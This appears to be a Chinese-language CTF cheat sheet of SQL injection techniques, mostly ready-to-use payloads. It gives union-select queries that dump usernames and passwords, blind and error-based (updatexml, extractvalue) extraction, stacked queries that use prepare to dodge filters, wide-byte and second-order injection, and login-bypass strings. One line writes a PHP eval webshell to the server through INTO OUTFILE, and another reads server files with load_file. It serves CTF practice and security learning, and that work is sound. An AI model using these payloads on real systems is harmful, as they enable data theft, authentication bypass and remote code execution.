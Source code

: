 ## 常见

| 考点                            |                                                                            |
| ------------------------------- | -------------------------------------------------------------------------- |
| 0.测试                          | 1' order by 1 -- [123456] 测试                                             |
| 1.联合查询                      | union select group_concat(username,0x7e,password),2,3 from...，order by... |
| [2.布尔盲注](#2布尔盲注)        | if(ascii(substr(database(),1,1))>100,1,0)                                  |
| [4.报错注入](#4报错注入)        |                                                                            |
| [5.堆叠注入](#5堆叠注入)        | 使用 prepare 绕过                                                          |
| 二次注入                        |
| [过滤了单引号](#过滤了单引号)   |
| [bypass](bypass_.md#sql-bypass) |

注入格式

| Column                                        | 测试 1                                                                                                                  | 测试 2 |
| --------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------- | ------ |
| ?id=1''                                       | ?id='1'                                                                                                                 |        |
| $id                                           | 1''                                                                                                                     | '1'    |
| $id 结果                                      | 正常                                                                                                                    | 正常   |
| '$id'                                         | '1'''                                                                                                                   | ''1''  |
| '$id'结果                                     | 正常                                                                                                                    | 错误   |
| `select * from user where username = '$name'` | 密码是 md5 方式, `-1' union select 1,'admin','202cb962ac59075b964b07152d234b70'#`                                       |
| \`uid\` in('1'); <br> \`uid\` in($id);        | 后面会补括号 <br> `1) or updatexml(1,concat(0x7e,version(),0x7e),1`<br>`1 or updatexml(1,concat(0x7e,version(),0x7e),1` |

### post/mysql

- 写入文件 `select "<?php @eval($_POST['cmd']);?>" into outfile "C://phpstudy/www/info.php"`
- 读文件 `select load_file('C:/users/desktop.ini');`

### 2.布尔盲注

```sql
if(ascii(substr(database(),1,1))>100,1,0)
布尔盲注不需要闭合
SELECT password from user WHERE id = ${id}
${id} = if(ascii(substr((select flag from flag),{},1))>{},1,2)
```

### 4.报错注入

```sql
(updatexml(1,concat(0x7e,(select user()),0x7e),1)); 大整数报错等
'or updatexml(1,concat(0x7e,user()),1)#
'or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),1),1)#
'or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag_head')),1),1)#
'or updatexml(1,concat(0x7e,(select group_concat(flag_h1) from flag_head)),1),1)#
--- 见 web_sql_00normal_04_error_inject.py
(1). 通过floor报错 能显示64字符, test1名称里会多出1，去掉改为test
(2). 通过updatexml报错 32字符 只有在payload返回的不是xml格式才会生效
(3). 通过ExtractValue报错
?username=admin'or(extractvalue(1,concat(0x7e,user(),0x7e)))%23&password=21
```

### 5.堆叠注入

```sql
select * from users where id= 1;create table test like users;
-1';set @t=concat('sel','ect flag from `1919810931114514`');prepare te from @t;execute te;#
```

### 二次注入

`[RCTF2015]EasySQL`
注册以下用户

```sh
admin"
admin'
admin')
admin")
```

admin" 在修改密码时报错，说明"闭合 二次注入，猜测 sql

```sql
update 表 set password='xxx' where username="xx" and pwd='xx'
```

## 常见的 SQL 注入考点 CTF-123458

```bash
3.时间盲注: if(ascii(substr(database(),1,1))>100,sleep(5),1)

6.二次注入:通过在一处输入点构造sql语句，在第二处触发
        -- 1.登陆:邮箱。密码 2.登陆后:限制用户名,显示用户名 -- 可能二次注入 -- 网鼎杯2018unfinish
7.宽字节注入:通过数据库编码错误来绕过字符转义
        sql = 'select *from user where id=\''.$id.'\'';
        GBK两个字符为一个汉字, 输入宽字符%df使反斜杠和这个%df形成一个汉字
        GET方式 id=1%df' union select 1,database(),3%23
        POST方式-没有url解码 username=1汉') or 1=1#
                -配合盲注完成
9.sql注入读写文件:通过sql注入写入webshell,或直接读取服务器文件
10.sql注入提权:通过sql注 入获取服务器权限
- 读取数据 见0x10
- 绕过字符  /**/替换空格, 用<a>无意义填充过waf , 看bypass
        ()替换空格or(1)=(1) , or('1')='1'
load_file
head 注入 useragent进行报错注入
MySQL查询的按位比较 -- CTFshow web1, [GYCTF2020]Ezsqli

SQLi-Quine  $row['password'] === $password, 输入的password值等于查询出来的值
        http://y24.top/go?_=06d458b6b3aHR0cHM6Ly93d3cuc2h5c2VjdXJpdHkuY29tL3Bvc3QvMjAxNDA3MDUtU1FMaS1RdWluZQ%3D%3D
        https://www.shysecurity.com/post/20140705-SQLi-Quine
        'UNION/**/SELECT/**/REPLACE(REPLACE('"UNION/**/SELECT/**/REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")/**/AS/**/a#',CHAR(34),CHAR(39)),CHAR(37),'"UNION/**/SELECT/**/REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")/**/AS/**/a#')/**/AS/**/a#
```

## Other

```sh
# https://www.bilibili.com/video/BV1ZT4y1o7H8  --1:10:31
"SELECT * FROM user WHERE username ='" .$username. "' AND password = '" .$password. "'"
username=admin\&password=||1=1#
# 关于 "||"
0||1=1, 0||0=0
# rlike(或者reexp)
模糊匹配,可以与正则匹配模式一起使用.如果未指定^xxxx$只要模式在指定字符串中就可以被匹配到
注意: SQL模糊匹配是不区分大小写的, 需要另外写爆破大小写脚本。
name= 'safasfascyxqagasgasfasfas'
name rlike cyxq
username=admin\&password=||(password)rlike(0x{})#
```

1.  在用户名或密码处加引号测试

        http://[极客大挑战 2019]EasySQL/check.php?username=admin'&password=11
        报错 猜测  select * from users where name='$username' and passwd='$password';

构造 username=admin or 1=1 和 passwd=admin or 1=1 即可

```sql
payload：?username=admin' or '1'='1&password=123' or '1'='1
替换后:   name='admin' or '1'='1' and passwd='123' or '1'='1';
```

### 过滤了单引号

```sql
select * from users where  username= '$_POST["username"]' and password = '$_POST["username"]';
```

- username = <span class="red">1\\</span>
- password = <span class="red"> or 1#</span>

```sql
select * from users where  username= '1\' and password =' or 1#
```

### 万能密码

有时不能为空（过滤了空字符）

```sql
1' or 1=1 #
uname=1' or 1=1 #&passwd=any
uname=1' or '1=1'#&passwd=any
select * from user where uname = '222' and upass = '222'
select * from user where uname = '222' and upass = '222' or 1=1
select * from user where uname = '222' and upass = '222' or '1=1#'
select * from user where uname = '222' and upass = '222' or '1'='1'
```

fuzz 后能用

```python
/*!union*/ 绕过union过滤
"0^" + "(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(i,mid)
# '0^(ascii(substr((select(flag)from(flag)),1,1))>94)'
```

<style>
 .red{color:red;}
</style>

# Article
[SQL特殊位置注入：order注入和limit注入](https://mp.weixin.qq.com/s/Hj8DIHS7NDInomv9PrTsvw)